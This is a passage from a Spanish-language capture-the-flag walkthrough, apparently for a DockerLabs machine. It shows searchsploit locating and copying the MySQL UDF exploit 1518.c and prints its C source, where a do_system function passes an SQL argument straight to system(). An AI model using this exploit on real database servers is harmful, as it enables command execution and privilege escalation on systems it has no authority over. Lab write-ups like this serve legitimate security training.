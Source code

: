 Tenemos permisos casi absolutos, por lo que podremos traer librerías dentro de este directorio. Existe un exploit en `exploitdb` que podemos usar en este caso (aunque se especifique que la versión no está en el alcance)

~~~ bash
searchsploit mysql 5 | grep UDF
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2) | linux/local/1518.c

# Importaremos este exploit
searchsploit -m linux/local/1518.c
  Exploit: MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
      URL: https://www.exploit-db.com/exploits/1518
     Path: /usr/share/exploitdb/exploits/linux/local/1518.c
    Codes: N/A
 Verified: True
File Type: C source, ASCII text
Copied to: /home/incommatose/machines/dockerlabs/gitea/nmap/1518.c
~~~

Si analizamos el código podremos ver el funcionamiento del `exploit`, pero primero cambiemos su nombre para que sea más intuitivo

~~~ bash
mv 1518.c exploit_udf.c 
~~~

> `exploit_udf.c`

~~~ c
#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}
~~~
